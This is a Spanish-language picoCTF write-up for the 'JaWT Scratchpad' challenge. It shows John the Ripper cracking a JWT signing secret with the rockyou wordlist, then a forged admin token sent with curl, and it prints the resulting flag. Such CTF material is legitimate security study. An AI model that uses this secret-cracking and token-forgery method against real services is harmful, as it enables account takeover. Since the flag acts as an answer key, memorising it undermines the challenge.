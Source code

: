 # JaWT Scratchpad

## Descripción
¡Revisa el bloc de notas del administrador!
https://jupiter.challenges.picoctf.org/problem/58210/

## Pistas
- ¿Qué es esa cookie?
- ¿Ha oído hablar de JWT?

## Solución
- Primero encontramos la palabra que genera la firma del JWT usando la herramienta "John the Ripper" en kali, para ello usamos la lista de palabras "rockyou.txt":

```bash
┌──(kali㉿kali)-[~]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:01 DONE (2023-03-19 20:55) 0.7462g/s 5520Kp/s 5520Kc/s 5520KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- Luego creamos la token con firma "ilovepico" y el usuario "admin", una vez obtenida la token se la pasamos a la cookie "jwt" en la cabecera de la página:

```bash
C:\Users\Ricardo>curl https://jupiter.challenges.picoctf.org/problem/58210/ -H "Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s"
<!doctype html>
<html>

        <title> JaWT - an online scratchpad </title>
        <link rel="stylesheet" href="/static/css/stylesheet.css">
        <body>
                <header><h1>JaWT</h1> <br> <i><small>powered by <a href="https://jwt.io/">JWT</a></small></i></header>

                <div id="main">

                        <article>
                                <h1>Welcome to JaWT!</h1>

                                <p>
                                        JaWT is an online scratchpad, where you can "jot" down whatever you'd like! Consider it a notebook for your thoughts. <b style="color:blue "> JaWT works best in Google Chrome for some reason. </b>
                                </p>



                                        <h2> Hello admin!</h2>
                                        <p>
                                                Here is your JaWT scratchpad!
                                        </p>
                                        <textarea style="margin: 0 auto; display: block;">picoCTF{jawt_was_just_what_you_thought_44c752f5}</textarea>
                                        <br>

                                                <a href="/logout"><input style="width:100px" type="submit" value="Logout"></a>



                                <h2> Register with your name! </h2>

                                <p>
                                        You can use your name as a log in, because that's quick and easy to remember! If you don't like your name, use a short and cool one like <a href="https://github.com/magnumripper/JohnTheRipper">John</a>!
                                </p>

                        </article>
                        <nav></nav>
                        <aside></aside>

                </div>
                <script> window.onload = function() { document.getElementById("name").focus(); }; </script>
        </body>
</html>
```

## Bandera
picoCTF{jawt_was_just_what_you_thought_44c752f5}

## Notas adicionales
| Concepto | Descripción |
|--------|--------|
| jwt | Es un estándar abierto basado en JSON propuesto por IETF (RFC 7519) para la creación de tokens de acceso que permiten la propagación de identidad y privilegios |
| John the Ripper | Es un rápido descifrador de contraseñas |

## Referencias
[JWT](https://jwt.io/)
[JSON Web Token](https://es.wikipedia.org/wiki/JSON_Web_Token)
[John the Ripper](https://github.com/openwall/john)